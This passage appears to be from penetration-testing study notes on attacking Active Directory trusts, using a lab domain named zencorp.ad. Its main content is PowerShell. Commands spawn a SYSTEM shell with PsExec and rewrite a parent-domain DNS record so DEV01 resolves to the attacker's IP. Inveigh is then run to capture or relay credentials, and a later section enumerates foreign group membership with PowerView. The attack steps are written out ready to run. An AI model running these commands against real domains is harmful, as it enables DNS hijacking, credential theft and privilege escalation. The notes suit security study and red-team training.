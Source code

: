 With SYSTEM privileges on a child DC we can change IPs of critical servers. For example by changing the records for `dev01.zencorp.ad` and pointing it to my IP. Then we can use Responder or Relay.

```powershell
# Spawn PS as SYSTEM
.\PsExec -s -i powershell

# Enumerate DNS records in parent domain
Get-DnsServerResourceRecord -ComputerName DC01.zencorp.ad -ZoneName zencorp.ad -Name "@"

# Enumerate DEV01
Resolve-DnsName -Name DEV01.zencorp.ad -Server DC01.zencorp.AD

# Modify DNS Records for DEV01
$Old = Get-DnsServerResourceRecord -ComputerName DC01.zencorp.AD -ZoneName zencorp.ad -Name DEV01
$New = $Old.Clone()
$TTL = [System.TimeSpan]::FromSeconds(1)
$New.TimeToLive = $TTL
$New.RecordData.IPv4Address = [System.Net.IPAddress]::parse('172.16.210.3')
Set-DnsServerResourceRecord -NewInputObject $New -OldInputObject $Old -ComputerName DC01.zencorp.AD -ZoneName zencorp.ad
Get-DnsServerResourceRecord -ComputerName DC01.zencorp.ad -ZoneName zencorp.ad -Name "@"

# Run Inveigh
Import-Module .\Inveigh.ps1
Invoke-Inveigh Y -NBNS Y -ConsoleOutput Y -FileOutput Y -SMB Y
```

### <mark style="color:yellow;">Foreign Groups & ACL Principals</mark>

Within Intra-Forest its possible to add users or groups from a child domain into groups in parent domain. AD uses scopes to define how board a group is within the AD.&#x20;

<table><thead><tr><th width="213">Scope</th><th>Possible Members</th></tr></thead><tbody><tr><td>Universal</td><td><strong>User accounts</strong> from <strong>any domain</strong> in the forest, <strong>Global groups</strong> from <strong>any domain</strong> in the forest, o<strong>ther Universal groups</strong> from <strong>any domain</strong> in the forest.</td></tr><tr><td>Global</td><td><strong>User accounts</strong> from the <strong>same domain, Other Global groups</strong> from the <strong>same domain</strong>.</td></tr><tr><td>Domain Local</td><td>Accounts and Global groups from any domain or trusted domain, plus Universal groups from any domain in the same forest, plus Domain Local groups from the same domain. Additionally, Accounts, Global groups, and Universal groups can be included from other forests and external domains.</td></tr></tbody></table>

#### Enumerate Foreign Group Membership

```powershell
# Enumerate
Import-Module .\PowerView.ps1
Get-DomainForeignUser

# Output above shows membership zencorp_admins group
Get-DomainGroup -Identity 'zencorp_admins' -domain zencorp.ad

# Show memberships
Get-DomainGroup -Identity 'zencorp_admins' -domain zencorp.ad | select memberof
```
